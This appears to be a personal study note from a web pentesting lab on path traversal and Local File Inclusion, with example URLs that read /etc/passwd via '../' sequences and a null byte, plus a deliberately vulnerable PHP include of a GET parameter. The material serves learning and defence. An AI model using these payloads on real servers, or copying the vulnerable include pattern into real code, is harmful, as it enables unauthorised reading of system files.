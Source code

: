 Example
![Pasted image 20240706094637.png|900](/img/user/Pentesting%20Web/attachments/Pasted%20image%2020240706094637.png)
# dot-dot-slash attack
```
http://webapp.thm/get.php?file=../../../../etc/passwd
```
![Pasted image 20240706094844.png|500](/img/user/Pentesting%20Web/attachments/Pasted%20image%2020240706094844.png)
# Check ![[Important files\|Important files]]



</div></div>

# 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- **L**ocal **F**ile **I**nclusion
- Access to file usually not accessible
- A fuzzer is useful
- Occurs on PHP, ASP, JSP, or even in Node.js apps.
- **Developers**' lack of **security awareness**. using functions such as include, require, include_once, and require_once often contribute to **vulnerable** web applications.
- Same concepts as [[Pentesting Web/Path Traversal\|path traversal]].
- Extract info: Users, proccess, groups
![Pasted image 20240417200528.png](/img/user/Pasted%20image%2020240417200528.png)
# Examples
## Example1
Suppose the web application provides two languages, and the user can select between the EN and AR
```php
<?PHP 
	include($_GET["lang"]);
?>
```
- Uses a **GET** request via the URL parameter **lang** to include the file of the page.
- The call can be done by sending the following HTTP request as follows: 
  `http://webapp.thm/index.php?lang=EN.php` to load the English page or `http://webapp.thm/index.php?lang=AR.php`
- `EN.php` and `AR.php` files exist in the same directory.
- `http://webapp.thm/index.php?lang=EN.php?file=/etc/passwd`
## Example 2
`http://webapp.thm/index.php?lang=EN`
If we enter an invalid input, such as THM Error:
We need to avoid the `php`extension
```php
Warning: include(languages/THM.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
The function looks like:  include(languages/THM.php);.
Trying `http://webapp.thm/index.php?lang=../../../../etc/passwd`
```php
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```
###  [[Poison Null Byte\|Poison Null Byte]]
Using it
`http://webapp.thm/lab3.php?file=../../../../../etc/passwd%00`